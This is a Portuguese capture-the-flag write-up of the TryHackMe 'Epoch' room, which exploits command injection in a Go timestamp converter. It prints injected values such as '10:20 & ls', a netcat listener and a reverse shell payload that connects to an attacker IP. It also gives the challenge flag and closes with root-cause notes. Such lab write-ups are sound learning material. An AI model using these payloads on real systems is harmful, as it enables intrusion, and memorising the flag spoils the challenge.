



# TryHackMe — Epoch

> **Categoria:** Web Exploitation / Command Injection
> **Dificuldade:** Fácil
> **Alvo:** `10.65.189.79`
> **Ferramentas:** Navegador (Brave), Netcat

## Descrição do Desafio

> Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!

A sala disponibiliza uma aplicação web ("Epoch to UTC convertor") que recebe um timestamp via parâmetro de URL (`?epoch=`) e, nos bastidores, repassa esse valor diretamente para o utilitário de linha de comando `date` do Linux, sem nenhuma sanitização. O objetivo é identificar essa falha de **Command Injection**, obter uma reverse shell no host e capturar a flag.

---

## 1. Reconhecimento e Identificação da Vulnerabilidade

Acessando `http://10.65.189.79/`, a aplicação apresenta um campo de texto único onde o usuário informa um horário/timestamp a ser convertido, que é então enviado via query string `?epoch=<valor>`.

Como a descrição do desafio já indica que o input é repassado "diretamente" para um programa de linha de comando, a primeira tentativa foi injetar um comando adicional usando o operador `&` do shell, encadeado após um valor de data inválido:

```
10:20 & ls
```

A requisição final (URL-encoded) foi:

```
http://10.65.189.79/?epoch=10%3A20+%26+ls
```

A resposta confirma a vulnerabilidade: o comando `date` falha ao interpretar `10:20` como uma data válida (`date: invalid date '@10:20'`), mas o comando encadeado `ls` é executado com sucesso pelo shell do servidor, retornando o conteúdo do diretório de trabalho da aplicação:

```
date: invalid date '@10:20'
go.mod
go.sum
main
main.go
views
```

Os arquivos `go.mod`, `go.sum`, `main` e `main.go` revelam que o backend é uma aplicação escrita em **Go**, que provavelmente executa algo equivalente a `date -d @<input>` via `os/exec` repassando o parâmetro do usuário sem escapá-lo — uma clássica falha de **OS Command Injection**.


*Figura 1 — Injeção de `& ls` no parâmetro `epoch` executando um comando arbitrário no servidor*

---

## 2. Exploração — Obtendo uma Reverse Shell

Confirmada a execução arbitrária de comandos, o próximo passo foi obter acesso interativo ao servidor. Um listener Netcat foi iniciado na máquina atacante (IP `192.168.129.38`), na porta `4444`:

```bash
nc -lnvp 4444
```

Em seguida, o seguinte payload de reverse shell foi injetado no mesmo parâmetro `epoch`, encadeado após um valor de data inválido para garantir a execução do comando adicional:

```
10:20 & sh -i >& /dev/tcp/192.168.129.38/4444 0&1
```

Assim que a requisição foi enviada pelo navegador, o listener recebeu a conexão de volta do alvo (`10.65.189.79:58848`), retornando um shell interativo:

```
listening on [any] 4444 ...
connect to [192.168.129.38] from (UNKNOWN) [10.65.189.79] 58848
sh: 0: can't access tty; job control turned off
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
```


*Figura 2 — Payload de reverse shell injetado no parâmetro `epoch` e conexão recebida no listener Netcat*

---

## 3. Pós-Exploração e Captura da Flag

Com a shell ativa como o usuário `challenge`, a primeira tentativa foi localizar o arquivo `flag.txt` no sistema de arquivos:

```bash
$ find / -iname flag.txt 2>/dev/null
```

A busca não retornou nenhum resultado, indicando que a flag não está armazenada em disco. O próximo passo natural foi inspecionar as **variáveis de ambiente** do processo com `printenv`:

```bash
$ printenv
HOSTNAME=e7c1352e71ec
SHLVL=1
HOME=/home/challenge
_=flag.txt
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/home/challenge
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
```

A flag estava armazenada diretamente como uma variável de ambiente (`FLAG`) dentro do container, uma prática comum em desafios containerizados (o `HOSTNAME=e7c1352e71ec` confirma que o alvo roda em um container Docker).


*Figura 3 — Flag obtida através do comando `printenv` dentro da reverse shell*

---

## 🚩 Flag

```
flag{7da6c7debd40bd611560c13d8149b647}
```

---

## Resumo da Cadeia de Ataque

| Etapa | Ação |
|---|---|
| 1 | Identificação de que o parâmetro `epoch` é repassado sem sanitização ao comando `date` |
| 2 | Injeção de `& ls` para confirmar execução arbitrária de comandos (Command Injection) |
| 3 | Listener Netcat (`nc -lnvp 4444`) na máquina atacante |
| 4 | Injeção de payload `sh -i >& /dev/tcp/<attacker_ip>/4444 0&1` para obter reverse shell |
| 5 | Enumeração do sistema (`id`, `find`) e captura da flag via `printenv` |

---

## Causa Raiz

A aplicação Go concatena/repassa o valor do parâmetro `epoch` diretamente para um comando de shell (equivalente a `sh -c "date -d @<input>"`), sem validação de formato nem uso de APIs seguras de execução (como `exec.Command` com argumentos separados, sem invocar um shell intermediário). Isso permite que o atacante injete metacaracteres de shell (`&`, `;`, `|`, `` ` ``, `$()`) para executar comandos arbitrários no contexto do processo do servidor.

---